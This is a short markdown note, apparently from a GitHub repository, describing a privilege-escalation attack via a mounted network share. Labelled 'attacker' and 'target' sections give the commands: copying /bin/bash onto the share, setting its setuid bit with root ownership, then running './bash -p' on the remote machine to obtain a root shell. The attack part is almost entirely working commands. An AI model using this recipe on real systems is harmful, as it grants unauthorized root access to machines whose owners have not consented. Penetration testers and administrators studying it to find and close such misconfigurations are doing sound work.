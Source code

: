 ### Precondition
Share is mounted to a local directory and user has access to the remote computer _(ssh for example)_.

### On local computer/attacker
```
sudo cp /bin/bash <directory>
sudo chmod +s <directory>/bash
```
copy bash to mounted share and allow running the file as the user who created it (_root_).
### On remote computer/target
```
./bash -p
```
run bash as root.